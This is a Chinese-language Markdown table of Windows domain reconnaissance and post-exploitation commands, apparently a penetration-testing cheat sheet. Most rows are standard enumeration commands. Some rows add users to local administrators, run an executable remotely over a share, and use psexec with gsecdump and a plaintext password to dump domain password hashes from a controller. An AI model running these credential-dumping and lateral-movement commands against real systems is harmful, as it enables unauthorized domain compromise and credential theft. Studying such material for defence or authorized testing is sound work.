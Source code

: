 |`net group 组名 /add`|增加域中的组|
|`net localgroup administrators workgroup\user001 /add` |域用户添加到本机|
|`net group "domain controllers" /domain`| 查看域控制器(如果有多台) |
|`net time /domain`|判断主域，主域服务器都做时间服务器 |
|`net config workstation `  |当前登录域 |
|`net session `|查看当前会话 |
|`net use \\ip\ipc$ pawword /user:username@domain`  |建立IPC会话[空连接-***]|
|`net view \\ip `|查询某IP共享|
|`net use z: \\192.168.200.21\文件夹名`|建立映射到本机Z盘|
|`net share` | 查看SMB指向的路径[即共享]|
|`at \\192.168.200.21:50 c:\windows\fuxk.exe`|在共享主机上执行|
|`net view ` |查询同一域内机器列表 |
|`net view /domain `|查询域列表|
|`net view /domain:test `|查看test域中计算机列表 |
|`net view \\DC的机器名字`|查看域控共享情况|
|`nltest /domain_trusts`|获取域信任信息|
|`net session`|查看当前会话|
|`net start `|查看当前运行的服务 |
|`net time /domain`|查询主域服务器的时间|
|`net time \\192.168.200.21`|查看192.168.200.21机器的时间|
|`echo %logonserver%`|查看登陆到这台服务器的计算机|
|`net accounts `| 查看本地密码策略| 
|`net accounts /domain`|  查看域密码策略| 
|`nbtstat –A ip `|netbios 查询 |
|`netstat –an/ano/anb` | 网络连接查询|
|`netsh firewall show config`|查看防火墙策略|
|`netsh firewall show state`|查看防火墙策略| 
|`route print`| 路由表|
|`tracert IP`|路由跟踪|
|`arp -a`|列出本网段内所有活跃的IP地址|
|`arp -s (ip + mac)`|绑定mac和IP|
|`arp -d (iP + mac)`|解绑IP和Mac|
|`tasklist /V`| 查看进程[显示对应用户]
|`tasklist /S ip /U domain\username /P /V `|查看远程计算机进程列表|
|`psexec \\192.168.200.21 -u administrator -p b404pass -c gsecdump.exe -u`|从域服务器密码存储文件windows/ntds/ntds.dit导出hash值出来|
|`gsecdump  -a`|获取域登管理员登录过得hash值，这里gescdump为第三方导出AD域的hash值|
|`tasklist /S IP地址 /U 域名\用户名 /P /V`|查看远程计算机进程|